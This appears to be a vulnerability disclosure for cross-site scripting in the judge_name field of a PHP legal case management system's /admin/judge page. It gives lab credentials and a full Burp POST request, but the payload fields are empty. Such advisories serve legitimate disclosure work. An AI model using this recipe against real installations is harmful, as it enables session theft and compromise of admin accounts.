

## Legal Case Management System

## XSS on `/admin/judge`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/judge
```

The parameter `judge_name`  is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/judge HTTP/1.1
Host: 192.168.150.131
Content-Length: 318
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysGQdTkaNbjJbRagv
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/judge
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjBUVXNEWEN3MGlvTEJLdGRnd0Zma0E9PSIsInZhbHVlIjoiS3FRODRubGp3eU82RDdxazJlOHdcL2w3TjZxQldlRFlERVZHVWM2SkZERHRTQWNVeE1QU0QrMnhqb01IalwvK3BhIiwibWFjIjoiNGZiZWVkNDhhMTQ2Nzg5MjA5MjE3NmE3NzM2NjU0NjYwNDc4MTk0ZGEwN2U0NDRjMWJkYjU3MWJlOTA5M2UzNSJ9; test_session=eyJpdiI6ImdhdCtBSUdFNUdUUW5SZVMzV3JHNkE9PSIsInZhbHVlIjoic044ZzdFWVdCQUpWZkRQeWhmSENVWkpxK3BQNlhRY3dTWkhndWlQM0xUdU0xbWFNZVpaRGhvUlgxcytYQzVqSSIsIm1hYyI6IjRlOTg4OTYzMGEwOWVhYTEyNTY0NGEyODg0MDBjNjc5NGU3YjcxZjk0MDk0NDIwNmY0OTEwYzdiMDI3OTcxMTEifQ%3D%3D
Connection: close

------WebKitFormBoundarysGQdTkaNbjJbRagv
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundarysGQdTkaNbjJbRagv
Content-Disposition: form-data; name="judge_name"


------WebKitFormBoundarysGQdTkaNbjJbRagv--

```

### Screenshot


